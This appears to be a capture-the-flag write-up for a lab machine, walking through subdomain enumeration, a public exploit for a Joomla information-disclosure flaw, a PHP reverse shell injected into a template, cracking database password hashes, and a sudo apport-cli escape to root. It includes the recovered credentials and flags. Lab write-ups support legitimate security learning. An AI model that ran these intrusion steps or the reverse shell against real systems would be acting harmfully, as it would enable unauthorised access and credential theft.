


# Initial Reconnaissance!
1. `curl -I 10.10.11.242`, to find any possible location / DNS name
2. found a DNS name `devvortex.htb`, add to `/etc/hosts`
3. `gobuster vhost -u devvortex.htb -w SecLists/Discovery/DNS/subdomain-top5000.txt --append-domain`
	note: why use `--append-domain`? while by default gobuster search with `example.url.WORD` this setting changes it to `WORD.example.url`
4. found a subdomain `dev.devvortex.htb`, add to `/etc/hosts`
5. `gobuster dir -u dev.devvortex.htb -w SecLists/Discovery/Web-Content/directory-list-medium.txt`
6. get an interesting directory `/administrator` which lead to a `Joomla!` login page
7. using `joomscan dev.devvortex.htb` return a result of joomla version `4.2.6` which has a known data exfiltration vulnerabilities with assigned `CVE-2023-23752` via the `/api` endpoint

# User Escalation
1. download the POC for `CVE-2023-23752` from `https://github.com/adhikara13/CVE-2023-23752.git`
2. `python3 CVE-2023-23752.py -u dev.devvortex.htb -o joomla` to extract a credentials, `-o joomla` is optional, it just saved the output into a file named `joomla`
3. got a credentials `lewis:P4ntherg0t1n5r3c0n##`
4. while i explore the joomla pages i notice that there's another user named `logan`, and i realise that i could perform reverse shell via the joomla template
5. go to the `system > administrator template` and pick any random one, i choose `index.php` and i inject on the top most inside the php tag a reverse shell `system("bash -c 'bash -i >& /dev/tcp/your-ip/port 0>&1'");` and save the file
6. setting up NC listener with `nc -lvnp port`
7. then i visit the path `path needed`, once i visited, i got a connection in the nc
8. on the `/etc/passwd` there's 2 user i'm interested in `logan` which is the user and `mysql` which is a database user which should store the password for Logan since Logan is registered as a user in the joomla panel
9. `mysql -u lewis -h localhost -p` to connect to the mysql, input lewis password and i'm inside the database
10. `show databases;` find out a database called `joomla`, `use joomla;`, to use the `joomla` database. `show tables;` to list all table inside the database. i notice an interesting tables `sd4fg_users` so i run the command  `select * from sd4fg_users` and found the 2 user earlier `lewis` and `logan` both have the hashed password
11. to crack the hash first i need to identify the hash, so i move the hash value into a file named `logan.hash` and then run `hashid logan.hash` it return a possible of 3 hash `blowfish`, `woltlab`, `bcrypt`, i will use `hashcat` to crack the hash with `rockyou.txt` wordlists
12. `hashcat -m 3200 logan.hash rockyou.txt`, after a while it return a result of `tequieromucho` with the known credentials of `logan:tequieromucho` its time to logged in with the user with ssh
13. `ssh logan@devvortex.htb`, `yes` if a theres a fingerprint prompt, and input the password
14. `cat user.txt`
15.  flag: `4d0de8887718e7c4fc7467ded4f9e4c4`

# Further Reconnaisance
1. `sudo -l` to check any available command to be run as sudo, and i could run `appport-cli` as sudo, which had an assigned ``

# Privilege Escalation
1. since i could run `apport-cli` and there's a known CVE i found the POC here `https://github.com/diego-tella/CVE-2023-1326-PoC`
2. `sudo apport-cli -f` to file a report, choose one of the option looks like the hardware which have an issue i choose `1` the screen, and then specify the problem i choose `2`, then a `enter to continue` just press enter, and wait for a moment. then there will be some option such as `send the report`, `save for later`, etc.
3. just click `v` based on the POC i need to read the report and there's a `less` looking interaction `:` on the bottom most, just enter `!/bin/bash` and enter
4. now i'm logged in as root
5. `cat /root/root.txt`
6. flag: `4467c637f361444378c871b02a8ccb54`

